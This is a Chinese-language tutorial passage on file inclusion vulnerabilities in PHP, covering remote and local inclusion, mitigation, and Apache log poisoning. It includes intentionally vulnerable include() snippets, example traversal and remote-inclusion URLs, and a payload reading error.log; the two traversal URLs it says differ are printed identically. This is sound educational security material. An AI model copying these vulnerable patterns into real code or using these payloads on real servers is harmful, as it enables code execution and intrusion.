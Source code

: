 # 文件包含漏洞

在 web 应用中，利用人员可以包括存储在远程服务器上的代码，或者来自存储在本地服务器上的文件的代码。引用 web 根目录中的文件以外的其他文件主要用于将公共代码合并到主应用稍后可以引用的文件中。

## 远程文件包括

远程文件包含，或众所周知的 RFI 是一种攻击技术，当程序员不小心并在没有正确验证的情况下动态引用用户输入的外部代码时，利用文件包含机制。这可能导致应用被欺骗，在攻击者的控制下从远程服务器运行脚本。PHP 最容易受到远程文件包含漏洞的攻击，但该漏洞并不限于 PHP。

PHP 语言中的`include`函数允许程序员从远程服务器引用代码。下面的 PHP 代码将从 HTTP 请求中提取脚本参数的值；恶意用户可以通过拦截从浏览器到 web 服务器的 http 请求中的数据来编辑脚本变量。在普通的 web 应用中，当用户与 web 应用交互，并且应用以用户提供的数据或通过单击网页上的某个链接的形式请求输入时，将填充变量。

然后提取脚本变量的值并将其传递给 include 函数，该函数获取文件并将其所有内容作为 PHP 代码动态地包含到程序中，如下所示：

`http://vul_website.com/preview.php?script=http://example.com/temp`

PHP 代码如下所示：

```
$inputfile = $_REQUEST["script"];
include($inputfile.".php");
```

## 本地文件包括

在本地文件包含漏洞中，服务器的本地文件未经适当验证就被包含功能访问。许多人将本地文件包含缺陷与目录遍历缺陷混淆。尽管本地文件包含缺陷通常表现出与目录遍历缺陷相同的特征，但应用对这两个缺陷的处理方式不同。在目录遍历缺陷中，应用将只读取文件的内容并显示它。在本地文件包含缺陷中，应用不显示内容，而是将文件作为可执行脚本包含，并以与 web 应用相同的权限执行。

尽管以下 URL 看起来完全相同，但它们可能代表完全不同的攻击：

*   `http://testdemo.org/mydata/info.php?file=../../../temp/shell.php`
*   `http://testdemo.org/mydata/info.php?file=../../../temp/shell.php`

如果第一个 URL 利用路径遍历问题，`shell.php`内容将显示为文本。如果第二个 URL 利用本地文件包含，`shell.php`内容将作为 PHP 代码处理并执行。

以下是易受本地文件包含攻击的代码片段：

```
<?php
  $file = $_GET['file'];
  {
    include("pages/$file");
  }
```

## 缓解文件包含攻击

在设计层面，应用应尽量减少会影响应用流程的用户输入。如果应用依赖用户输入来包含文件，则只允许用户传递一个有限数量的字符，应用可以转换并映射到要包含的特定文件。应进行代码审查，以查找包含文件的函数，并应进行检查，以分析是否进行了适当的输入验证，以净化从用户接收的数据。

使用 LFI 的酷攻击是日志中毒。当您发出无效请求时，它会被记录到服务器上。如果它是 Apache web 服务器，则会登录到`error.log`文件中。看到服务器记录所有产生错误的内容，您就可以影响`error.log`文件的内容。作为 LFI 漏洞的一部分，我们可以在 PHP 代码中注入一些无效数据，这些数据会产生错误，但也会登录到`error.log`文件中。现在，攻击者可以通过执行以下类似操作来执行`error.log`文件中的 PHP 代码：

```
http://vulnerable.com/include.php?file=../../../../var/log/apache2/error.log
```

